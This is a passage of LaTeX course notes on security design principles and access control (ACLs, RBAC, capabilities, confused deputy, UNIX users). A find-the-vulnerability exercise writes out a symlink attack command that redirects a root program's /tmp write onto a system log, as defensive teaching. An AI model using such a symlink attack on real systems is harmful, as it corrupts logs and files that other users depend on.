\textbf{DVD encryption (CSS, 1996)}: a proprietary 40-bit algorithm (US export law forbade longer
keys), given only under a non-disclosure licence. Every licensed player had a decryption key, and
each DVD's content key was encrypted for all players. One careless player maker did not protect
its key; hackers extracted it and could read (and copy) every DVD. Many secrets: one leak broke
the whole system. \\
\textbf{Defect density}: industry studies cite 15 to 50 bugs per 1000 lines of code, about 5\% of
them security vulnerabilities, i.e.\ roughly 1 per 1000 lines --- which is why ``enough
eyeballs'' is more of a mantra.
\end{exbox}

\begin{exbox}[title=Security through obscurity does not work]
\begin{itemize}
  \item \textbf{Hidden instance (2017)}: data of 198 million US voters stored on a
        public server with no authentication; the only ``protection'' was a
        ``semi-secret'' URL. A researcher found it.
  \item \textbf{Addresses are not safe}: the whole IPv4 space ($2^{32}\approx 4$
        billion addresses) could be scanned in about 3 minutes in 2013 --- picking a
        random port (0--65535) \textbf{is not hiding the service}.
\end{itemize}
\end{exbox}

\begin{goatbox}
Everybody may know how the lock is built; only the key is secret. A lock that is only safe
because nobody has seen it is a lock that breaks the day somebody looks at it --- and the fox
always looks. A hidden gate in the fence is still a gate: foxes walk along the whole fence in
three minutes.
\end{goatbox}

\section{5 -- Separation of privilege}

\begin{defnbox}[title=Privilege]
A \textbf{privilege} allows a user to perform an action on a computer system that may
have security consequences (e.g.\ create a file in a directory, access a device, write
to a socket for communicating over the Internet).
\end{defnbox}

\begin{defnbox}[title=Separation of privilege]
``No single accident, deception, or breach of trust is sufficient to compromise the
protected information.'' [SS75] \\
Requiring \textbf{multiple conditions} to execute an action improves security
(e.g.\ two keys to open a safe, two factors to authenticate).
\end{defnbox}

\begin{warnbox}[title=Problems]
\begin{itemize}
  \item \textbf{Availability?} --- all conditions are needed to use the service: what if you do
        not have your phone to log in to your bank?
  \item \textbf{Responsibility?} --- with several people involved, nobody in particular is
        responsible: it may lower security and makes liability harder to establish.
  \item \textbf{Complexity!} --- how are the conditions combined, when, does order matter?
        (Recall economy of mechanism.)
\end{itemize}
\end{warnbox}

\begin{exbox}[title=Payment system of a business]
\textbf{Goal}: the attacker must not steal money. \textbf{Threat model}: the attacker
can corrupt \emph{at most one} principal (no collusion). If a manager can both
\textit{create a vendor}, \textit{create an order} and \textit{approve} it, a single
corrupted manager registers a fake shell company and pays it. \\
\textbf{Solution: split roles} --- Procurement can \textbf{only} create/approve vendors;
Finance can \textbf{only} approve payments for vendors already in the system.
Reminiscent of \textbf{separation of powers} / ``checks and balances''.
\end{exbox}

\begin{exbox}[title=2AF]
A stolen password alone isn't enough.
\end{exbox}

\begin{goatbox}
The big safe needs two keys held by two different goats: one goat that goes bad, or is tricked,
or loses its key, is not enough to open it. The price: if one goat is on holiday, nobody opens
the safe.
\end{goatbox}

\section{6 -- Least privilege}

\begin{defnbox}[title=Least privilege]
``Every program and every user of the system should operate using the \textbf{least set
of privileges necessary} to complete the job.'' [SS75] \\
Rights are \textbf{added as needed} and \textbf{discarded after use}.
\end{defnbox}

\begin{propbox}[title=Least privilege in practice]
\begin{itemize}
  \item \textbf{Damage control} --- minimize high-privilege actions \& interactions
        (related to economy of mechanism: small TCB).
  \item \textbf{``Need-to-know'' principle} --- e.g.\ guest accounts at EPFL,
        \textbf{data minimization} principle (data protection).
\end{itemize}
\end{propbox}

\begin{rembox}[title={Which principle is it related to? Fail-safe defaults}]
A principal with few privileges cannot do much damage if it errs, misbehaves or is compromised:
even then, it cannot execute unauthorized actions, so the system stays in a \textbf{safe state}.
\end{rembox}

\begin{goatbox}
The goat that milks the cows gets the key of the milk room, not the key of the whole farm, and
gives it back when the milking is done. If that goat is tricked by the fox, the fox gets milk,
not the farm.
\end{goatbox}

\section{7 -- Least common mechanism}

\begin{defnbox}[title=Least common mechanism]
``Minimize the amount of mechanism \textbf{common to more than one user} and depended on
by all users.'' [SS75] \\
Every shared mechanism represents a \textbf{potential information path between users}
and must be designed with great care so that it does not unintentionally compromise
security.
\end{defnbox}

\begin{propbox}[title=Link with economy of mechanism]
\begin{itemize}
  \item \textbf{(Design)} interactions make it hard to validate the security design;
  \item \textbf{(Implementation)} interactions may lead to unintentional leaks of
        information --- \textbf{unintended channels}: use of \texttt{/tmp}, shared cache.
\end{itemize}
\end{propbox}

\begin{warnbox}[title={Mechanisms, not code}]
This principle refers to \textbf{mechanisms}, not to code: reusable code that has been
tested many times is \textbf{helpful} for security. The problem is the
\textbf{isolation of data}.
\end{warnbox}

\begin{exbox}[title=Two users sharing \texttt{/tmp}]
Alice and Bob both run programs on a multi-user server, which gives everyone the same
\texttt{/tmp}.
\begin{enumerate}
  \item Alice's program writes a temporary file \texttt{/tmp/report.tmp} containing her
        private salary data.
  \item Bob's program looks in \texttt{/tmp}, sees the file, and reads it (or overwrites
        it, or replaces it with a link to something else).
\end{enumerate}
Nobody wrote a bug that says ``let Bob read Alice's data'': \texttt{/tmp} is common to all
users, hence an \textbf{unintended information path} between them. \\
\textbf{Better design}: give each user a \textbf{private temp directory} (e.g.\
\texttt{/tmp/alice-xxxx/} with permissions only for Alice, or a per-user directory). Now
there is no shared channel to abuse.
\end{exbox}

\begin{exbox}[title={Exercise: find the vulnerability --- symlink attack in \texttt{/tmp}}]
\textbf{Principal 1}: a root program that writes a log to \texttt{/tmp/starting.log}.
\textbf{Principal 2}: the root logging subsystem. \textbf{Principal 3}: a user that runs non-root
programs, with write access to \texttt{/tmp} too. \textbf{Goal}: integrity of the files written
by principal 2. \textbf{Threat model}: the adversary can corrupt principal 3. \\
A \textbf{symbolic link} (symlink) is a ``shortcut'' file: when the OS accesses it, it is
automatically redirected to the real file it points to. \\
A root program writes \texttt{echo "Service is starting..." > /tmp/starting.log}. A
non-root user (corrupted by the adversary) also has write access to \texttt{/tmp} and
runs \texttt{ln -s /var/log/dmesg /tmp/starting.log}: the root program now overwrites a
system log, breaking \textbf{log integrity}. The common mechanism is the \texttt{/tmp}
directory, shared between low-privilege users and root processes. (Modern Linux
mitigates it in \texttt{/tmp}, but it still works e.g.\ in \texttt{/home/user}.)
\end{exbox}

\begin{goatbox}
If all the goats drink from one trough, a goat can leave a message in the water for another goat,
or poison it. Every shared thing (\texttt{/tmp}, a cache) is a secret tunnel between users. Give
each goat its own bucket. Sharing the \emph{recipe} of the bucket (reusing well-tested code) is
fine; sharing the \emph{water} is not.
\end{goatbox}

\section{8 -- Psychological acceptability}

\begin{defnbox}[title=Psychological acceptability]
``It is essential that the human interface be designed for \textbf{ease of use}, so that
users routinely and automatically apply the protection mechanisms correctly.'' [SS75]
\end{defnbox}

\begin{propbox}[title=What it implies]
\begin{itemize}
  \item \textbf{Hide the complexity} introduced by security mechanisms: they should not
        make the resource more difficult to access than if they were not present.
  \item The \textbf{mental model} of the (honest) users must match the security policy
        and security mechanisms.
  \item \textbf{Cultural acceptability} --- not all mechanisms are acceptable everywhere
        (face recognition in cultures that cover the face, register of everyone who
        sleeps in a dorm).
\end{itemize}
\end{propbox}

\begin{rembox}[title=Why it matters]
When mechanisms are complicated, users adopt \textbf{insecure practices} (the canonical example:
the password on a sticky note). If honest users do not understand the threat, they misuse the
mechanism; if it goes against social norms, they ignore it or circumvent it.
\end{rembox}

\begin{exbox}[title=Amazon S3 ``Any Authenticated AWS User'']
Psychological acceptability is \textbf{not just for end users}: system administrators
are also users of a configuration UI. Admins thought the option meant ``any
authenticated user \emph{in my account}'' whereas it meant ``anyone with \emph{any} AWS
account'' (free to create) $\Rightarrow$ several leaks from 2017. In 2023 AWS added a
fail-safe default (block public access) --- \textbf{safer defaults have tradeoffs}
(users struggled to share buckets).
\end{exbox}

\begin{goatbox}
A lock so annoying that the farmer props the door open with a stone protects nothing. The
safest lock is the one people actually use correctly without thinking --- and that includes the
farm's administrators reading a confusing settings screen (``any authenticated AWS user'' meant
\emph{any goat on Earth}).
\end{goatbox}

\section{Extra principles from physical security}

\begin{warnbox}[title=Difficult to transpose to computer security!]
The last two principles come from physical security and are hard to apply to computer
systems.
\end{warnbox}

\begin{defnbox}[title=9 -- Work factor]
``Compare the \textbf{cost of circumventing} the mechanism with the \textbf{resources of
a potential attacker}.'' [SS75] \\
It helps \textbf{refining the threat model}, but cost is \textbf{difficult to
quantify} (cost of compromising insiders? of finding a bug? monetization?).
\end{defnbox}

\begin{rembox}[title=Why it transposes badly]
In the physical world, cost is visible (breaking a lock, climbing a wall) and the benefit is
limited to the people physically there. In computers, what is the cost of corrupting an employee,
or of finding a bug (time? expertise?), and what is the benefit, when an exploit found once can be
used by many people at almost no cost?
\end{rembox}

\begin{defnbox}[title=10 -- Compromise recording]
``\textbf{Reliably record} that a compromise of information has occurred [\ldots] in
place of more elaborate mechanisms that completely prevent loss.'' [SS75] \\
Keep \textbf{tamper-evident logs}: they may enable recovery (integrity).
\end{defnbox}

\begin{warnbox}[title=Logs are not magic]
\begin{itemize}
  \item \textbf{What if you cannot recover?} If the attack deleted keys or leaked secrets,
        knowing that it happened (and who did it) does not bring them back.
  \item \textbf{How to keep the log's integrity?} If the adversary can tamper with the log, the
        log is useless: secure logs need their own security mechanism.
  \item \textbf{Logs may be a vulnerability (privacy)}: a log showing a patient talking very often
        to an oncologist reveals their health even if the records are confidential.
  \item \textbf{Logging the log? (availability)}: the log must not be deletable or blocked.
\end{itemize}
\textbf{Logging is not a guarantee that the compromise is detected.}
\end{warnbox}

\begin{goatbox}
Work factor: make the fox's job cost more than the chickens are worth to him --- but in computers
it is hard to price the fox's job. Compromise recording: if you cannot stop every theft, at least
keep a diary that the thief cannot erase, so you know what was taken and can sometimes get it
back.
\end{goatbox}

\begin{exbox}[title={The principles still apply today: machine learning}]
\textbf{Least privilege}: let the model learn as little as possible, so information cannot be
extracted from it. \textbf{Least common mechanism}: get samples labelled from different origins.
\textbf{Psychological acceptability}: users must understand why a model classifies or
misclassifies an input. \textbf{Work factor}: the cost of an attack (e.g.\ the number of API
calls) matters for its relevance. \textbf{Compromise recording}: ideally, log every step inside
the algorithm.
\end{exbox}

\begin{keybox}[title=Summary]
``Since no one knows how to build a system without flaws, the alternative is to rely on
eight design principles, which tend to reduce both the number and the seriousness of any
flaws.'' [SS75]
\begin{itemize}
  \item \textbf{Economy of mechanism} --- keep it simple!
  \item \textbf{Fail-safe defaults} --- safe defaults; if there is a problem, your move
        should comply with the policy.
  \item \textbf{Complete mediation} --- verify \emph{every} action.
  \item \textbf{Open design} --- make the design (and implementation) available.
  \item \textbf{Separation of privilege} --- never rely on \emph{only one} entity or
        action.
  \item \textbf{Least privilege} --- only the privileges needed, only while needed.
  \item \textbf{Least common mechanism} --- minimize shared mechanisms (isolate data).
  \item \textbf{Psychological acceptability} --- security must be easy to use correctly.
\end{itemize}
Principles help identify safe and unsafe \textbf{patterns}: do \textbf{not} use them as a
blind checklist, but as tools to weigh design decisions. They are easy to violate ---
typically through \textbf{improperly evaluated tradeoffs}, e.g.\ a default configuration made
easier to use (no certificate needed to host a website), or a simple, minimal TCB vs.\ the
simplicity of writing the code.
\end{keybox}

\begin{recapbox}[title={Exam-ready recap --- Lecture 2: Principles}]
Saltzer \& Schroeder (1975): \textbf{8 (+2) design principles}, to consider always (break one only
with a good reason and known risks); a tool to weigh tradeoffs, not a blind checklist. For an
exam scenario: name the \textbf{violated principle} and the \textbf{fix}.
\begin{center}
\small
\begin{tabularx}{\linewidth}{@{}>{\raggedright\arraybackslash}p{0.25\linewidth} >{\raggedright\arraybackslash}X >{\raggedright\arraybackslash}p{0.27\linewidth}@{}}
\toprule
\textbf{Principle} & \textbf{In one line} & \textbf{Example / violation} \\
\midrule
1 Economy of mechanism & simple, small mechanisms; small \textbf{TCB} (what the policy relies on; ``X trusts Y will do Z''); testing gives no assurance & Heartbleed (side feature, missing bounds check) \\
2 Fail-safe defaults & decide on \textbf{permission} (whitelist), not exclusion; on error, fall back to a safe state, do not fix & MongoDB open by default \\
3 Complete mediation & check \textbf{every} access to \textbf{every} object (reference monitor + audit log); hard: speed, TOCTOU, distribution & ``Gold Member'' cookie checked once \\
4 Open design & only keys / passwords are secret (Kerckhoffs, Shannon, Baran); obscurity fails & GSM A5/1, DVD CSS, hidden S3 URL, IPv4 scanned in 3 min \\
5 Separation of privilege & no single accident / deception / breach suffices; several conditions (cost: availability, responsibility, complexity) & 2FA, split Procurement / Finance \\
6 Least privilege & minimal rights, added when needed, dropped after; need-to-know; related to fail-safe & guest accounts, data minimization \\
7 Least common mechanism & every shared mechanism is an information path; isolate \emph{data} (shared code is fine) & \texttt{/tmp}, symlink attack, shared cache \\
8 Psychological acceptability & easy to use correctly; mental model matches the policy; culturally acceptable; admins are users too & S3 ``Any Authenticated AWS User'' \\
9 Work factor & cost of the attack vs.\ attacker's resources; hard to quantify in IT & \\
10 Compromise recording & tamper-evident logs; not magic (recovery, integrity, privacy, availability) & \\
\bottomrule
\end{tabularx}
\end{center}
Principles often pull against each other (a central reference monitor: economy of mechanism and
complete mediation vs.\ least common mechanism, Lecture 3).

\textbf{How it builds on what came before}: Lecture 1 said \emph{what} a secure system is (a
policy that holds under a threat model, shown by a security argument). This lecture says
\emph{how to design} the mechanisms so that such an argument is possible: small TCB, safe
defaults, every access checked, no reliance on secrecy of the design. The next lectures apply
these principles to the first concrete mechanism, \textbf{access control}: the reference monitor
\emph{is} complete mediation, negative permissions first \emph{is} fail-safe, roles and need-to-know
\emph{are} least privilege, covert channels \emph{are} least common mechanism.
\end{recapbox}

% =========================================================
\chapter{Lecture 3 : Access control basics and DAC}
% =========================================================

\begin{rembox}[title=In a nutshell]
\textbf{What is this lecture about?} \textbf{Access control} answers one question:
``is \emph{this} user allowed to do \emph{this} action on \emph{this} file?''. In
\textbf{DAC}, the \textbf{owner} of a file decides who can use it (like on your laptop or
on Facebook). We see how to store these permissions (matrix, ACLs, capabilities, roles,
groups), a classic trap (the \emph{confused deputy}), and how Linux and Windows do it in
practice. \\
\textbf{Why is it useful?} Access control is the \textbf{first line of defense} and is
everywhere: apps, databases, operating systems, hardware. Understanding it lets you read
and set file permissions correctly (\texttt{ls -l}, \texttt{chmod}, \texttt{sudo}) and
spot programs that can be tricked into using their rights for an attacker.
\end{rembox}

\section{What is access control?}

\begin{rembox}[title=Access control in the physical world]
We already know it: keys for homes and cars, the CAMIPRO card for EPFL rooms (a physical door
with digital support). Computers need the same thing for files, sockets, database rows, memory.
\end{rembox}

\begin{defnbox}[title=Access control]
Security mechanism that ensures that ``all accesses and actions on objects by principals
are \textbf{within} the security policy''.
\end{defnbox}

\begin{exbox}[title=Questions an access control system answers]
Can Alice read file \texttt{/users/Bob/readme.txt}? Can Bob open a TCP socket to
\texttt{http://www.abc.com/}? Can Charlie write to row 15 of the table GRADES? \\
The answer is either \textbf{authorized} (``has permission'') or
\textbf{unauthorized} (``access denied''): only events within the security policy may
happen.
\end{exbox}

\begin{rembox}[title=Why is access control so important?]
Access control is the \textbf{first line of defense}, thus \textbf{it is used
everywhere}:
\begin{itemize}
  \item \textbf{Applications} --- online social networks, email servers, cloud storage;
  \item \textbf{Middleware} --- database management systems (DBMS);
  \item \textbf{Operating system} --- access to files, directories, ports, \ldots;
  \item \textbf{Hardware} --- memory, registers, privileges.
\end{itemize}
\end{rembox}

\begin{defnbox}[title=Authentication vs.\ authorization]
\begin{itemize}
  \item \textbf{Authentication} --- the system needs to \textbf{bind the actor to a
        principal} before authorization. A \textbf{principal} is an abstract entity
        that is authorized to act (users, connections, processes).
  \item \textbf{Authorization} --- the system needs to decide whether the
        \textbf{principal is authorized}: this is \textbf{access control}.
\end{itemize}
\end{defnbox}

\begin{warnbox}[title=Trusted Computing Base (TCB)]
It contains the mechanisms that do authentication and authorization: if either of them fails,
the security policy is breached, so both must be in the TCB (Lecture 2).
\end{warnbox}

\begin{rembox}[title={Origin of protection mechanisms (Lampson, 1971)}]
The original motivation was to keep \textbf{one user's malice or error from harming other
users}: by destroying/modifying another user's data, by reading/copying it without
permission, or by degrading the service another user gets (the extreme case being a
crash of the system). All these reasons are just as strong if ``user'' is replaced by
``\textbf{program}''.
\end{rembox}

\begin{goatbox}
Access control is the guard at the barn door. For every request ``this goat wants to do this
thing to this bucket'', the guard says yes or no, by looking at the rules. Before that, someone
must check that the goat really is that goat (authentication: ``show me your ear tag''); then the
guard decides (authorization: ``this goat may drink from this bucket'').
\end{goatbox}

\section{Implementing access control}

\begin{propbox}[title={``Checks soup'' vs.\ reference monitor}]
\begin{itemize}
  \item \textbf{What NOT to do: ``checks soup''} --- add checks all over the program,
        implementing the decision \textbf{in-line} based on the policy
        (\texttt{if user == Alice or user == Bob: open(\ldots)}). It is \textbf{error-prone}
        (a missed check? how to verify or debug?) and \textbf{hard to change} (a policy change
        means finding every check in thousands of lines).
  \item \textbf{What you SHOULD do: systematic calls to a ``reference monitor''} ---
        all over the program add checks that \textbf{call the monitor}: they state the
        authorization required and provide evidence about principals and objects; a
        \textbf{``central'' subsystem} establishes whether the checks pass or not
        (e.g.\ Apache Shiro: \texttt{subject.isPermitted("user:delete:jsmith")}).
\end{itemize}
\end{propbox}

\begin{rembox}[title=Least common mechanism? A tradeoff between principles]
The lecture's view: a central reference monitor \textbf{violates least common mechanism} (it is
shared by everybody; if it fails or is compromised, the policy can be breached), but it
\textbf{fulfils economy of mechanism} (access control in one place, easy to check) and
\textbf{complete mediation} (it can check every action). Not all principles can be followed at
once: here the one that is better for security wins. (One can also note that least common
mechanism is mostly about the isolation of \emph{data}, and a single well-tested monitor shares
code, not data.)
\end{rembox}

\begin{goatbox}
Do not give every farmhand a scribbled list of rules to check in their own way (``checks soup''):
someone will forget one. Put \emph{one} guard at the barn door who knows the rule book; everyone
asks the guard. If the rule changes, you tell one guard, not fifty farmhands.
\end{goatbox}

\section{Discretionary Access Control (DAC)}

\begin{defnbox}[title=Discretionary Access Control (DAC)]
\textbf{Object owners} decide how their resources are shared: the owner assigns the
permissions on what they own (e.g.\ Linux \texttt{chmod}, Windows, macOS, social
networks). DAC policies are often conceptualized as an \textbf{access control matrix}.
\end{defnbox}

\begin{rembox}[title=DAC in practice]
There is no central authority: objects are owned by different users. Since systems have huge
numbers of objects, owners usually choose among a \textbf{predefined set of options} rather than
fine-grained rules (``public / friends / only me''). Examples: operating systems, social networks
(Facebook, Instagram: the owner decides who sees a post), cloud file sharing (Google Drive,
Dropbox).
\end{rembox}

\subsection{The access control matrix}

\begin{defnbox}[title=Access control matrix]
An \textbf{abstract} representation of all \textbf{permitted} triplets
\textbf{(subject, object, access right)} within a system. DAC policies are often
conceptualized as an access control matrix (Lampson).
\begin{itemize}
  \item \textbf{Subjects (principals)} --- entities within an IT system (a user, a
        process, a service).
  \item \textbf{Objects (assets)} --- resources that (some) subject may access or use
        (a file, a folder, a row in a database, the system's memory, a machine in the
        network, a printer, a page in a website).
  \item \textbf{Operations} --- in abstract, subjects can \textbf{observe} and/or
        \textbf{alter} objects (read, write, append, execute).
\end{itemize}
\end{defnbox}

\begin{exbox}[title=Access control matrix]
$S = \{\text{Alice}, \text{Bob}\}$, $O = \{\text{file1}, \text{file2},
\text{file3}\}$, $A = \{\text{read}, \text{write}\}$.
\begin{center}
\begin{tabular}{l|c|c|c}
      & file1      & file2      & file3      \\ \hline
Alice & read, write &            & read       \\
Bob   &            & read, write & read, write
\end{tabular}
\end{center}
Can Alice read file1? \textbf{Yes.} Can Bob write file1? \textbf{No} (Bob has nothing on
file1). Can file3 be written by Alice? \textbf{No} (only read). \\
The matrix is more general than users and files (Lampson's original example was already richer):
an entry can be any operation (read, write, execute, replace, delete, \ldots).
\end{exbox}

\begin{warnbox}[title=The matrix is an abstract concept]
Not for direct implementation: size $O(f \cdot u)$ ($f$ files, $u$ users), which is huge
with thousands of files or hundreds of users. Moreover it is:
\begin{itemize}
  \item \textbf{usually very sparse} --- wasteful;
  \item \textbf{inefficient to access} --- need to keep the matrix in fast memory?
  \item \textbf{not extensible} --- add a file? add a user?
\end{itemize}
\end{warnbox}

\begin{goatbox}
Imagine a giant table: one row per goat, one column per bucket, and in each box what that goat
may do with that bucket. It answers every question, but with a million goats and a million
buckets it is a trillion boxes, almost all empty. So nobody stores the table: you either cut it
into columns (each bucket keeps its own list: ACL) or into rows (each goat keeps its own list:
capabilities).
\end{goatbox}

\subsection{Access Control Lists (ACLs)}

\begin{defnbox}[title=Access Control List (ACL)]
Associate permissions to \textbf{objects}: each object stores the \textbf{column} of the
matrix, i.e.\ the list of (subject, rights) pairs. \textbf{Blanks are not stored}.
\begin{center}
\texttt{file3: \{(Alice, read), (Bob, read/write)\}}
\end{center}
\end{defnbox}

\begin{propbox}[title=ACLs: pros and cons]
\textbf{Pros}: can be stored close to / with the resource; easy to determine who can
access a resource; easy to revoke rights by resource. \\
\textbf{Cons}: difficult to check at runtime (it is often unclear \emph{who} the subject
accessing is: see the confused deputy); difficult to audit all rights of a user (go file by file:
linear in the number of files); difficult to remove all permissions from a user (error-prone:
better remove their authentication credentials!); difficult delegation (hard to tell whether a
user may delegate, and to remove a temporary permission later).
\end{propbox}

\begin{goatbox}
ACL = a list stuck on each bucket: ``Alice may drink, Bob may drink and refill''. To know who
uses this bucket: read its list. To know everything Alice may do: walk to every bucket in the
farm.
\end{goatbox}

\subsection{Role Based Access Control (RBAC)}

\begin{defnbox}[title=Role Based Access Control (RBAC)]
Systems have too many subjects that come and go (large dynamic ACLs), but subjects are
similar to each other and need the same rights (a doctor has the same privileges as
another doctor).
\begin{enumerate}
  \item assign permissions to \textbf{roles};
  \item assign \textbf{roles} to subjects;
  \item subjects select an \textbf{active role} --- they have the permissions of the
        active role.
\end{enumerate}
Example: Alice the surgeon has both the Doctor and the Nurse roles. Acting as Nurse, she can read
a patient's treatment but not write it; switching to Doctor, she can do both. Acting in one role
at a time prevents misuse of privileges (\textbf{least privilege}).
\end{defnbox}

\begin{warnbox}[title=RBAC problems]
\begin{enumerate}
  \item \textbf{Role explosion} --- temptation to create fine-grained roles, denying the
        benefits of RBAC.
  \item \textbf{Limited expressiveness} of simple RBAC --- problems implementing least
        privilege; some roles are relative (``Alice's doctor'' vs.\ ``any doctor'').
  \item \textbf{Separation of duty is difficult} --- ``two doctors are needed to
        authorize a procedure'': the mechanism needs to ensure they are distinct!
\end{enumerate}
With too many roles (almost one per user) the system is as complex as an ACL; with few roles it
cannot express nuances (a doctor should only see \emph{their own} patients); and since all
subjects of a role look the same to the system, it cannot tell one doctor from two.
\end{warnbox}

\begin{goatbox}
Instead of listing goats one by one, give hats: ``milker hat'', ``shepherd hat''. The rules say
what each hat may do, and each goat gets some hats. A goat wears one hat at a time and has only
that hat's rights. Trouble starts when you invent a new hat for every goat (no gain), or when a
rule needs ``two \emph{different} shepherds'' (two shepherd hats look the same).
\end{goatbox}

\subsection{Group Based Access Control}

\begin{defnbox}[title=Group Based Access Control]
Observation: some permissions are always needed together (e.g.\ access to sockets and
network interface).
\begin{enumerate}
  \item assign permissions to access objects to \textbf{groups};
  \item assign subjects to \textbf{groups};
  \item subjects have the permissions of \textbf{all} their groups.
\end{enumerate}
\textbf{Negative permissions} (explicit denials for a subject) can be added to implement
fine-grained policies. Example: group1 gives access to file1, file2, file3; Alice needs file2 and
file3, so group1 makes sense for her, but the policy forbids her file1. Instead of a new group
(or breaching the policy), add a negative permission ``Alice: no read/write on file1''.
\end{defnbox}

\begin{propbox}[title=Negative permissions are checked first]
If group permissions were checked first, a group would grant the access and the
negative permission would never be applied. Checking \textbf{negative permissions first}
is the fail-safe choice (deny overrides allow).
\end{propbox}

\begin{rembox}[title=RBAC vs.\ groups]
With \textbf{roles}, a subject has the permissions of the \emph{one active} role; with
\textbf{groups}, a subject has the union of the permissions of \emph{all} its groups.
\end{rembox}

\begin{goatbox}
Groups are clubs: the ``water club'' always gets the bucket \emph{and} the tap together. A goat in
three clubs has everything of the three clubs at once. If one club member must not touch one
bucket, write a red ``NO'' card for her, and the guard reads red cards first.
\end{goatbox}

\subsection{Capabilities}

\begin{defnbox}[title=Capabilities]
Associate permissions to \textbf{subjects}: each subject stores the \textbf{row} of the
matrix, i.e.\ the list of (object, rights) pairs. \textbf{Blanks are not stored}.
\begin{center}
\texttt{Alice: \{(file1, read/write), (file3, read)\}}
\end{center}
\end{defnbox}

\begin{propbox}[title=Capabilities: pros and cons]
\textbf{Pros}: can be stored with the subject (portable!); easy to audit all subject
permissions; delegating is ``simple''. \\
\textbf{Cons}: revoking just one permission is hard (if the objects are unstructured, finding the permission
is linear in the number of objects of the user); transferability --- once the capability is given, how can we
prevent sharing? (if Alice gives Bob her right to read file1, which is not in the matrix, the
policy is broken); authenticity --- how to check it? (like checking a concert ticket is not
fake). \\
Portability is a real advantage in \textbf{distributed systems}: the subject shows its credential
to any node, wherever the object is. The paper ``Capability myths demolished'' argues that the
cons are addressable.
\end{propbox}

\begin{keybox}[title=ACL vs.\ capabilities]
\begin{center}
\begin{tabular}{l|l|l}
                       & \textbf{ACL}           & \textbf{Capabilities} \\ \hline
Stored with            & the object (column)    & the subject (row)     \\
Who can access $o$?    & easy                   & hard                  \\
What can $s$ access?   & hard                   & easy                  \\
Revocation             & easy per object        & hard per object       \\
Delegation             & difficult              & ``simple''
\end{tabular}
\end{center}
\end{keybox}

\begin{rembox}[title=History of capability-based security]
Introduced by Dennis \& Van Horn (1966); used in the Plessey System 250 (1972), CAP
computer (1976), Intel iAPX 432 (1981). The industry then adopted UNIX and its ACLs
(1982, Linux 1991). Revival: seL4 formally verified microkernel (2009), CHERI (2015),
Google Fuchsia (2016), WASI (2019), ARM Morello (2022), Scala capabilities at EPFL.
\end{rembox}

\begin{goatbox}
Capabilities = each goat carries its own keyring: ``key to bucket 1 (drink, refill), key to
bucket 3 (drink)''. Everything Alice may do is on her keyring; she can lend a key easily. But to
take back every key of bucket 3, you must find every goat; and a goat can copy or fake a key unless
keys are hard to forge.
\end{goatbox}

\subsection{Ambient authority and the confused deputy}

\begin{defnbox}[title=Ambient authority]
\textbf{Ambient authority} is used by a subject if, for an action to succeed, it
\textbf{only} needs to specify the \textbf{operation} and the \textbf{names} of the
involved object(s). The \textbf{subject} (with authority) is \textbf{implicit}:
in \texttt{open("file1", "rw")} the subject is missing, it is understood to be the
process owner.
\end{defnbox}

\begin{propbox}[title=Ambient authority: pros and cons]
\textbf{Pro}: no need to repeat the subject all the time (usability). \\
\textbf{Cons}: the program cannot check permissions for whom it acts; least privilege
becomes harder to enforce; \textbf{confused deputy problem}!
\end{propbox}

\begin{rembox}[title={ACLs, capabilities and ambient authority}]
ACL systems generally use ambient authority: permissions are checked for the user \emph{running}
the program. With capabilities, the capability itself carries the right (and who holds it):
there is \textbf{no ambient authority}.
\end{rembox}

\begin{defnbox}[title=Confused deputy problem]
Problem with ambient authority: a \textbf{privileged program} can be \textbf{tricked to
misuse its authority}. A confused deputy is a privileged principal used by a less privileged
principal to increase her access to the system.
\end{defnbox}

\begin{exbox}[title=The CAMIPRO story]
Students want to enter a classroom their CAMIPRO cards do not open. Breaking the lock or EPFL's
central services is hard. Easier: ask a new professor, who does not know well who may enter
where, to open the door with his very privileged badge. The professor is the confused deputy.
\end{exbox}

\begin{exbox}[title=Pay-per-use compiler]
The compiler receives \texttt{(input, output)}, compiles \texttt{input}, writes usage
into \texttt{bill} and errors into \texttt{output}.
\begin{center}
\begin{tabular}{l|c|c|c}
         & input & output      & bill        \\ \hline
Alice    & write & read        & read        \\
Compiler & read  & read, write & read, write
\end{tabular}
\end{center}
Alice cannot write \texttt{bill}, but she calls the compiler with
\texttt{(input, bill)}: the compiler writes the errors into \texttt{output = bill}
\textbf{with its own authority} $\Rightarrow$ \texttt{bill} is corrupted. The compiler
is the \textbf{confused deputy}. (Same idea: a student with a card asks someone
authorized to badge them into a room.)
\end{exbox}

\begin{algbox}[title=How to avoid confused deputies]
Ambient authority is used for convenience in many real systems (OS services, web
servers, \ldots). Solutions:
\begin{enumerate}
  \item re-implement access control in the privileged process (removes the ambient authority,
        but expensive and cumbersome, thus error-prone);
  \item let the privileged process check authorization for Alice (the ambient authority stays,
        but it checks that the user invoking it has the same permissions);
  \item \textbf{capabilities can help}! The compiler holds a capability for
        \texttt{bill}; to compile, Alice must give a capability for the
        \texttt{output} file --- she cannot give a capability for writing
        \texttt{bill}, so she cannot confuse anyone.
\end{enumerate}
\end{algbox}

\begin{goatbox}
The sheepdog may enter every pen. A sly goat says ``dog, please push the gate of \emph{that}
pen'', and the dog, who only asks ``may \emph{I} push it?'', obeys: the goat used the dog's
rights, not her own. That is the confused deputy. The cure: the dog asks ``may \emph{you}?'', or
the goat must hand the dog a key to the pen --- a key she does not have.
\end{goatbox}

\section{DAC in practice: UNIX}

\subsection{Principals and architecture}

\begin{defnbox}[title=UNIX principals and groups]
\begin{itemize}
  \item \textbf{User Identities (UIDs)} and \textbf{Group Identities (GIDs)}:
        originally 16-bit (now 32-bit) numbers. Special UIDs: $-2$, $0$, $1$, \ldots
  \item Each user has its own directory \texttt{/home/username}; user accounts are in
        \texttt{/etc/passwd} (\texttt{username:password:UID:GID:info:home:shell}: \texttt{info}
        is a comment, \texttt{home} the directory where the user lands at login, \texttt{shell}
        the default shell).
  \item Users belong to one or more groups: primary group (\texttt{/etc/passwd}),
        other groups (\texttt{/etc/group}).
\end{itemize}
\end{defnbox}

\begin{propbox}[title=UNIX security architecture]
\begin{itemize}
  \item \textbf{Everything is a file}; each user ``owns'' a set of files.
  \item Each file has a simple \textbf{ACL} expressing its access control policy. The
        owner can \textbf{modify the permissions of the file} (but cannot give away
        ownership). System files are owned by special users that can make system
        operations.
  \item All processes run by a user run \textbf{with that user's privileges}
        $\Rightarrow$ \textbf{ambient authority}!
\end{itemize}
\end{propbox}

\subsection{File permissions}

\begin{defnbox}[title=UNIX file ACLs]
Each file is assigned an \textbf{owner UID} and a \textbf{GID}, and has \textbf{9
